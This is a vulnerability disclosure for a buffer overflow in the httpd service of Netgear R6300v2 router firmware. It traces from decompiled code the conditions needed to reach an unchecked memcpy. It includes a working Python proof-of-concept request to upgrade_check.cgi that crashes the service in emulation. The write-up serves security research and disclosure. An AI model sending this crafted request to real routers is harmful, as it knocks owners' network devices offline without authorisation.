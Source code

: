 # Basic Information

Supplier: Netgear

Product: R6300v2

Firmware version: R6300v2-V1.0.4.8_10.0.77、R6300v2-V1.0.4.36_10.0.93

Type: Buffer overflow vulnerability

Firmware：[R6300v2-V1.0.4.8_10.0.77.chk](./R6300V2_httpd_1/R6300v2-V1.0.4.8_10.0.77.chk)

# Vulnerability description
There is a buffer overflow vulnerability in the binary file of the R6300v2 firmware version. The vulnerability is located in the sub_18334 function (R6300v2-V1.0.4.8_10.0.77 version) in the `/usr/sbin/httpd` file, `memcpy(s, src, v2)` When copying continuous `v2` bytes of data starting from `src` to the memory area with `s` as the starting address, the size of the target memory area (`s`) will not be enough to accommodate the source memory area ( `src`) data, this is because the value of v2 is to read four consecutive bytes from the memory pointed to by the `src` pointer, and combine them into a 32-bit value in a specific byte order (according to the index value) Integer, this value may be greater than the memory length of variable s, causing buffer overflow. The relevant information is shown in the figure below.

Previously, it was necessary to bypass the judgment of `strcmp((const char *)src, "*#$^")`. `src` must be `*#$^`, and you can add `0x00` character after it to cause truncation.

![image.png](./R6300V2_httpd_1/image.png)

Through IDA cross-reference, we know that function sub_18334 is called in function sub_12CC8, in which variable v77 is the actual parameter passed in. By analyzing the judgment conditions, we can know that variable s1 needs to satisfy the requirement of containing `'name="mtenFWUpload"\r\n\r\ n'` string, and then use the data following the string as the parameter of the sub_18334 function.
At the same time, if you want the program to execute to this position, the variable `v117` must be 1, otherwise the sequence will jump out, but the value of v117 is assigned to 0 in line 713, as shown in the figure below.

![image.png](./R6300V2_httpd_1/image1.png)

![image.png](./R6300V2_httpd_1/image2.png)


Observing the program further, we can find that the http request needs to contain the `upgrade_check.cgi` character to return to the original while loop.

![image.png](./R6300V2_httpd_1/image3.png)


But in order to reach this place, certain conditions must be met, that is, to reach LABEL_272, as shown in the figure below.

![image.png](./R6300V2_httpd_1/image4.png)

# Vulnerability verification


The constructed POC program is as follows

```Python
import requests

data1 = "*#$^"
data1 += "\x00\xFF\xFF\xFF"
data1 = data1.ljust(0xFFFF, 'A')


payload = ''
payload += 'POST /upgrade_check.cgi HTTP/1.1\r\n'
payload += 'Host: 192.168.1.1\r\n'
payload += 'Content-Disposition: AAAA\r\n'
payload += 'Content-Length: {}\r\n'.format(len(data1) + 1)
payload += 'Content-Type: application/octet-stream\r\n'
payload += 'name="mtenFWUpload"\r\n'
payload += '\r\n'
payload += data1

headers = {'Content-Length': str(len(payload))}

url = 'http://192.168.1.1:80/upgrade_check.cgi'
response = requests.post(url, headers=headers, data=payload)

print(response.text)
```

In order to verify the existence of the vulnerability, use FirmAE to simulate the firmware, as shown below, the service can be started successfully.

![image.png](./R6300V2_httpd_1/image5.png)

Run the poc script, refresh the page, and find that the service crashes.

![image.png](./R6300V2_httpd_1/image6.png)

